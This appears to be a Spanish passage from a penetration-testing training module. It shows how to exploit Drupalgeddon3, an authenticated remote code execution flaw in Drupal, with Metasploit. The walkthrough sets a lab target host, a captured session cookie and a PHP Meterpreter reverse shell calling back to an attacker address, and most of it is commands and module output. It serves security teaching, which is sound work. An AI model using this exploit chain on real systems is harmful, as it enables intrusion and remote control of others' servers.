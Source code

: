 [Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3) es una vulnerabilidad de ejecución remota de código autenticada que afecta a [múltiples versiones](https://www.drupal.org/sa-core-2018-004) del núcleo de Drupal. Requiere que un usuario tenga la capacidad de eliminar un nodo. Podemos explotar esto usando Metasploit, pero primero debemos iniciar sesión y obtener una cookie de sesión válida.

![](https://academy.hackthebox.com/storage/modules/113/burp.png)

Una vez que tengamos la cookie de sesión, podemos configurar el módulo de explotación de la siguiente manera.

```bash
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 

Module options (exploit/multi/http/drupal_drupageddon3):

   Name            Current Setting                                                                   Required  Description
   ----            ---------------                                                                   --------  -----------
   DRUPAL_NODE     1                                                                                 yes       Exist Node Number (Page, Article, Forum topic, or a Post)
   DRUPAL_SESSION  SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  yes       Authenticated Cookie Session
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.42.195                                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80                                                                                yes       The target port (TCP)
   SSL             false                                                                             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                                                                                 yes

       The target URI of the Drupal installation
   VHOST           drupal-acc.inlanefreight.local                                                    no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   User register form with exec
```
